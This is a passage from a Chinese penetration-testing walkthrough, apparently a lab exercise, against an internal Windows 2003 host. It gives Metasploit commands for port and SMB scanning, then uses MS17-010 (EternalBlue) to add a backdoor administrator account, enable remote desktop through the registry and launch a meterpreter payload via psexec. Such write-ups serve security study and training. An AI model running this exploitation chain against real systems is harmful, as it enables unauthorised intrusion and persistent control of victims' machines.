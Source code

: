 我们发现在内网存在`192.168.52.141`设备，我们利用扫描端口模块扫描`192.168.52.141`开放端口

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.52.141
set PORTS 1-9000
set THREADS 100		//设置线程
```

![image-20210323161407035](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323161407035.png)



我们看到这台机器开启了`445`端口，所以利用模块扫描系统版本，扫描结果是`windows2003`

```
use auxiliary/scanner/smb/smb_version
set RHOSTS 192.168.52.141
```

![image-20210323161616173](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323161616173.png)





### 1、利用漏洞远程桌面进入主机

执行一些系统权限的命令，添加管理员用户，尝试**永恒之蓝漏洞（MS17-010）**3389登录

```
use auxiliary/admin/smb/ms17_010_command
set rhosts 192.168.52.141
set command net user test 123 /add	#添加用户
run

set command net localgroup administrators test /add #管理员权限
run

set command 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
run
```



这里特别注意，因为开启3389端口命令中有两个双引号，如果整条命令外面不用单引号扩一下或者用双引号扩了，会出现一些符号闭合上的问题

```
use exploit/windows/smb/ms17_010_psexec
set rhosts 192.168.52.141
set payload windows/meterpreter/bind_tcp
set lhost 192.168.248.129
set lport 6666
set SMBPass 123
set SMBUser test
run
```
